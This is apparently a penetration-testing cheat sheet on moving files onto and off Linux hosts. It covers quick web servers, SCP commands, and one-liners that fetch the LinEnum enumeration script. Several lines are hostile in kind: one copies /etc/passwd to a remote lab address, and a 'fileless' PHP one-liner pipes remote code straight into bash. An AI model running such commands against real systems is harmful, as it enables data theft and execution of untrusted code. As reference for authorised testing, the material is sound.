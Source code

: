 <code class="invert">Linux - Creating a Web Server with Python2.7</code>

```bash
python2.7 -m SimpleHTTPServer
```

<code class="invert">Linux - Creating a Web Server with PHP</code>

```php
php -S 0.0.0.0:9000
```

<code class="invert">Linux - Creating a Web Server with Ruby</code>

```ruby
ruby -run -ehttpd . -p8000
```

<code class="invert">Linux - Uploding and downloading files via SCP</code>  
Download a file from remote host via SSH key

```bash
scp -i ~/.ssh/secret_key username@<DNS/IP>:/home/redparrot/downloadme.txt /tmp/downloaded.txt
```

Upload a file from remote host via SSH key
```bash
scp -i ~/.ssh/secret_key /tmp/uploadme.txt username@<DNS/IP>:/home/redparrot/uploaded.txt
```

Via password based authentication
```bash
scp /etc/passwd redparrot@10.129.86.90:/home/redparrot/
```

### **Transferring Files with Code**
File download - <code class="invert">Python3</code>

```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

```bash
php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```
Fileless download - <code class="invert">PHP</code>

```bash
php -r '$lines = @file("<URL_TO_CODE>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
